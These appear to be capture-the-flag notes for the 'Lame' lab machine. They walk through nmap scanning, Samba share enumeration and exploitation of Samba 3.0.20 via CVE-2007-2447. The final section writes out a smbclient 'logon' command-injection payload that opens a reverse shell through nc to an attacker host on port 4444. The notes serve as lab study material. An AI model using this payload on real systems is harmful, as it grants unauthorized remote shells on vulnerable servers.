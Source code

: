 * solution:
  1. nmap
  #+begin_src sh
nmap -sC -sV -oA Lame.nmap <ip>
    ## find smb service with version
  #+end_src
  [[./lame.nmap.nmap]]
  #+NAME: nmap result
  [[./nmap.png]]
  2. (since vsFTPd 2.3.4 backdoor does not work), search <smb 3.0.20>
      + CVE-2007-2447 (msfconsole will give this result)

* problems:
  + had to use smb version NT1 to connect to the server. 
  #+begin_src sh
## /etc/samba/smb.conf::[global], add the following line:
client min protocol = NT1
  #+end_src
  
* CVE-2007-2447 manual script:
   + config smbclient to use NT1
   + enumerate the smb directory, find where anonymous login is possible:
   #+begin_src sh
smbclient -L //ip -m NT1
## gives a list of folders
## among which, oops, /tmp allows anonymous login
   #+end_src
   
   + anonymous login to /tmp
   #+begin_src sh
smbclient //ip/tmp -m NT1
   #+end_src

   + use the logon script:
   #+begin_src sh
logon "/=`nohup rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.26 4444 >/tmp/g;rm /tmp/g`" ""
     ## logon “/= `<payload>`”
     ## based on CVE-2007-2447, the logon script did not censor user input properly, as a result, the script enclosed within the backtips is executed.
     ## vuln at source/smbd/map_username.c
     ## internal of the vuln: https://0x00sec.org/t/cvexplained-cve-2007-2447/22748
   #+end_src
